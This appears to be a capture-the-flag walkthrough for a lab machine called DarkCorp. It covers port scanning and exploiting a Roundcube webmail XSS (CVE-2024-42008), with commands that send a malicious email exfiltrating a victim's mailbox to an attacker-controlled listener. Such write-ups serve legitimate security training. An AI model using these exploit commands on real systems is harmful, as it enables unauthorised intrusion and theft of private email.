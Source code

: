 # DarkCorp – Advanced Windows Domain Penetration Test Walkthrough

## Overview
DarkCorp is a multi-layered Windows domain penetration test involving initial web vulnerabilities including Roundcube Webmail XSS (CVE-2024-42008), SQL Injection on an internal service to extract Linux credentials, lateral movement via SSH and VPN tunneling, Active Directory enumeration, Kerberos bruteforce, Group Policy Object (GPO) abuse for privilege escalation, and finally domain compromise with flag capture.

## 1. Reconnaissance and Initial Enumeration
### Port Scanning
Perform a fast scan using RustScan to identify open services on the target IP (replace 10.10.11.54 with the actual target IP if needed):
```bash
rustscan -a 10.10.11.54 -sCTV -Pn
```
Confirm with Nmap:
```bash
nmap -p22,80 -sC -sV -Pn 10.10.11.54
```
Output showed filtered ports 22 (SSH) and 80 (HTTP) on target.

### DNS and Hostname Setup
Add the domain names associated with the target IP to `/etc/hosts` to access the services by hostname:
```bash
echo "10.10.11.54 drip.htb mail.drip.htb" | sudo tee -a /etc/hosts
```
Attempt accessing `http://drip.htb` and `http://mail.drip.htb` for initial reconnaissance.

## 2. Roundcube Webmail Enumeration and 0-Click XSS Exploit
### Register and Log in
Register a new user on Roundcube Webmail at `http://mail.drip.htb/`.

Logged in as `test@drip.htb`.

### Intercept Contact Form
Use BurpSuite to intercept POST requests to `/contact`.

The form sends emails which can be controlled.

**Vulnerability:**  
Roundcube v1.6.7 is vulnerable to a 0-click XSS triggered by crafted email content (CVE-2024-42008).

Leverage this to execute JavaScript in victim’s mailbox (`bcase@drip.htb`).

### Exploitation Script
Modify the provided Python script to send a malicious email with payload exfiltrating private email content via the attacker's HTTP server:
```bash
python3 xss.py -m <message_id> -i <YourIP> -p 4243
```
Start a local listener to capture the exfiltrated base64 encoded email content:
```bash
rlwrap nc -lnvp 4243
```
